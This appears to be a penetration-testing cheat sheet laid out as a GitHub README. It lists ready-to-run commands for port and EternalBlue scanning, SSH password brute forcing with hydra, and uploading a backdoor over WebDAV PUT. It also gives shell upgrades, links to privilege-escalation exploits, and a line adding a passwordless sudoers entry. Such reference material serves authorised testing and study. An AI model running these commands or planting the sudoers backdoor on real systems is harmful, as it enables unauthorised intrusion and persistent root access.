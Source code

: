 ## ENUMERATION

### Find all open ports
```
nmap -sV -Pn -p- -T4 -A <IP>
nmap -Pn -sT -sV -A --script=default,banner -p- <IP>
nmap -n -A -sU -T4 <IP>
```
### Vulnerability Scan
#### eternalblue scan
```
nmap -p445 --script smb-vuln-ms17-010 <IP-range>
```

### linux enumeration 
```
enum4linux <IP>
```

## WEB PENTEST

### enumerate port 80
```
nikto -host http://<IP>
```

### sqlmap with request file
```
sqlmap -r search-test.txt -p param
```
### If PUT method is enabled
```
davtest -move -sendbd auto -url http://$ip
cadaver <IP>
cad> PUT met.asp met.asp
```

## ENCRYPTIONS AND DECRYPTIONS

### Detect the hash type
```
hash-identifier
```

### Password bruteforce using hydra
```
hydra -l bob -p password ssh://10.10.10.1 -t 4
hydra -L user.txt -P pass.txt ssh://10.10.10.1 -t 4
hydra -s <port> -L user.txt -P pass.txt ssh://10.10.10.1 -t 4
```

### Online md5 cracker
```
https://www.md5online.org/md5-decrypt.html
```

## LINUX PRIVILAGE ESCALATION
### Shell upgrade
```
echo os.system('/bin/bash')
```

### upgraded it to a pseudo-terminal using python
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### First do some privilage checking
```
http://www.securitysift.com/download/linuxprivchecker.py
```

### if you can edit sudoers file, just add this line
```
echo 'bob ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

## WINDOWS PRIVILAGE ESCALATION
### Windows File search
```
where /r c:\ proof.txt
```

### Dirty COW Vulnerability
```
https://www.exploit-db.com/exploits/40839
```
### 'afd.sys' Local Privilege Escalation

#### Windows Xp service pack 3 and Windows 2000 service pack 2 is vulnerable to this.
exploit url:
```
https://raw.githubusercontent.com/abatchy17/WindowsExploits/master/MS11-080%20-%20AFD.sys/MS11-080.py
```
video: 
```
https://www.youtube.com/watch?v=rxNziQlk7sA
```

## PORT FORWARDING

## Windows port forwarding
```
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```
## Linux port forwarding
```
ssh -p 9002 -L10000:127.0.0.1:10000 user@<IP2>
ssh -p 9002 -L10000:<IP1>:22 user@<IP2>
```
